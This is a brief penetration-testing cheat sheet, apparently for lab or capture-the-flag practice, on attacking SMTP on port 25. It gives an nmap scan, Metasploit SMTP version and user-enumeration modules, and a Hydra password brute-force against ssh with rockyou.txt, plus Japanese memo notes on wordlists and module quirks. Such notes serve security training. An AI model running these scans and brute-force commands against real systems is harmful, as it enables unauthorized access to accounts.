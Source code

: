 # SMTP / Port 25
SMTP stands for "Simple Mail Transfer Protocol". It is utilised to handle the sending of emails. In order to support email services, a protocol pair is required, comprising of SMTP and POP/IMAP. Together they allow the user to send outgoing mail and retrieve incoming mail, respectively.

## Workflow
1. Port scan with nmap
2. Enumerate useful information
3. Crack password with hydra

## Advance preparation
```
export rhost=[RHOST IP]
```

## Port scan
Check if port 25 is open
```
sudo nmap -sS -sV -O $rhost
```

## Enumeration
### Metasploit
Determine the version of mail servers
```
use auxiliary/scanner/smtp/smtp_version
```

Enumerate the users of mail servers. (*1)(*2) 
```
use auxiliary/scanner/smtp/smtp_enum
```

## Exploitation
### Hydra
Crack the password of the user found using Metasploit module
```
hydra -t 16 -l [USERNAME] -P /usr/share/wordlists/rockyou.txt -vV $rhost ssh
```

## Memo
*1 デフォルトのユーザーファイルではなく、top-usernames-shortlist.txt(/usr/share/wordlists/secLists/Usernames/top-usernames-shortlist.txt)を使っても良い。  

*2 auxiliary/scanner/smtp/smtp_versionの後に続けて実行すると、前のモジュールのものと同じ実行結果が表示されることがある。  
その場合、Metasploitを再起動すると正常に実行される。
